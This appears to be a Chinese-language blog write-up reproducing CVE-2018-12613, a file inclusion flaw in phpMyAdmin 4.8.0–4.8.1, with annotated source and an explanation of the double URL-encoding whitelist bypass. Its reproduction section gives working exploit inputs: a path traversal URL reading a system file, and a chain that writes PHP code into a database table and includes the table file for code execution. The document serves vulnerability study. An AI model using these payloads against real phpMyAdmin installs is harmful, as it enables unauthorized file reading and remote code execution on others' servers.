


# CVE-2018-12613-phpmyadmin4.8.1远程文件包含漏洞复现

> [参考文章1](https://www.cnblogs.com/leixiao-/p/10265150.html)	[参考文章2](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)	
>
> By：Mirror王宇阳

## 漏洞原理

攻击者利用发现在服务器上包含（查看和潜在执行）文件的漏洞。该漏洞来自一部分代码，其中页面在phpMyAdmin中被重定向和加载，以及对白名单页面进行不正确的测试。
攻击者必须经过身份验证，但在这些情况下除外：

- $ cfg [‘AllowArbitraryServer’] = true：攻击者可以指定他/她已经控制的任何主机，并在phpMyAdmin上执行任意代码；

- $ cfg [‘ServerDefault’] = 0：这会绕过登录并在没有任何身份验证的情况下运行易受攻击的代码。

影响：phpMyAdmin-4.8.0/4.8.1

## 漏洞环境

- phpStudy2016 [下载](http://public.xp.cn/upgrades/phpStudy20161103.zip
  )
- phpMyAdmin-4.8.1 [下载](https://files.phpmyadmin.net/phpMyAdmin/4.8.1/phpMyAdmin-4.8.1-all-languages.zip)

## 漏洞成因

### 漏洞索引：

- 文件路径：`.\phpMyAdmin\index.php` 

- 位置锁定：line 55~63

  

### 源码分析：

``` php
// 如果有一个有效的目标，加载这个脚本
if (! empty($_REQUEST['target']) 
    //是否存在target参数
    && is_string($_REQUEST['target']) 
    //target是否为字符串
    && ! preg_match('/^index/', $_REQUEST['target'])
    //限制要求target以index开头
    && ! in_array($_REQUEST['target'], $target_blacklist)
    //限制target不能出现在$target_blacklist中
    /*
    	$target_blacklist = array(
    		'import.php' , 'export.php'
    	)
    	// target != 'import.php' != 'export.php'
    */
    && Core::checkPageValidity($_REQUEST['target'])
    // Core类的checkPageValidity()方法
) {
    include $_REQUEST['target'];
    exit;
}
```

第61行`include $_REQUEST['target']` 暴露了存在LFI的可能。

需要的是绕过限制：

> target参数不可以以index开头，不出现在target_blacklist中（!= import.php != export.php)
>
> 调用Core类[<u>libraries\classes\Core.php</u>]的checkPageValidity()自定义函数**且结果为真** 





``` php
public static function checkPageValidity(&$page, array $whitelist = [])
    {	
        if (empty($whitelist)) {
            // 白名单
            //$whitelist在函数被调用的时候，没有值引用$goto_whitelist的内容（上图）
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            //$page没有定义或$page不为字符串时 返回false
            return false;
        }

        if (in_array($page, $whitelist)) { // in_array():搜索数组中是否存在指定的值
            //$page存在$whitelist中的value返回true
            return true;
        }

        $_page = mb_substr( //mb_substr():返回字符串的一部分
            $page,
            0,
            mb_strpos($page . '?', '?')
            //返回从开始到问号之间的字符串
        );
        if (in_array($_page, $whitelist)) {
            //$_page存在$whitelist中的value返回true
            return true;
        }
		
        $_page = urldecode($page);//urldecode():解码已编码的URL
    //经过urldecode函数解码后的$_page存在$whitelist中的某个值则返回true
        $_page = mb_substr(//返回从开始到问号之间的字符串
            $_page,
            0,
            mb_strpos($_page . '?', '?')
            //mb_strpos():查找在字符串中第一次出现的位置（大小写敏感）
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

465~473代码的目的：**二次URL解码**

> 这里考虑到了URL二次编码和参数存在的情况！
>
> 例如传入：`?target=db_datadict.php%253f`
>
> 服务器在接收到URL请求连接后就会自动对URL进行一次解码为：`?target=db_datadict.php%3f`在遇到` $_page = urldecode($page);`二次解码后为：`?target=db_datadict.php?`这样就符合白名单的要求“ ？符号前的文件名在白名单序列中”

利用二次编码“%253f”可以绕过checkPageValidity()的检查！

由于二次解码只是在checkPageValidity()中执行的，在index.php中只做过一次解码：`?target=db_datadict.php%3f`**由此就造成了文件包含漏洞**

## 漏洞复现

### 任意文件包含： 

``` url
?target=db_sql.php%253f/../../../../../../windows/wininit.ini
```

### 任意代码执行：

- 查询数据库路径：

   `show global variables like "%datadir%";`

- 向数据库写入代码：

   ``` sql
  CREATE DATABASE rce;
  use rce;
  CREATE TABLE rce(code varchar(100));
  INSERT INTO rce(code) VALUES("<?php phpinfo(); ?>");
   ```

- 包含该数据库文件：

  ```
  ?target=db_datadict.php%253f/../../../../../../../../../phpStudy/PHPTutorial/MySQL/data/rce/rce.MYD
  ```